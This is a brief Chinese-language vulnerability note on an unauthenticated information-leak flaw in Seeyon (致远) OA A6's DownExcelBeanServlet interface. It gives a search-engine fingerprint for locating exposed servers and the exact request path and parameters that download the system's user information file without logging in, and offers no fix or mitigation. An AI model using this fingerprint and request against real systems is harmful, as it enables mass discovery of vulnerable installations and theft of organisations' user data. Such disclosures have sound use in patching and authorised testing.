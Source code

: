 # 致远OA A6 DownExcelBeanServlet 用户敏感信息泄露

## 漏洞描述

致远OA A6 存在某个未授权的接口导致任意访问者可下载OA中的用户信息

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问如下URL即可跳转下载用户信息文件

```
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```

![image-20220520151947895](./images/202205201519045.png)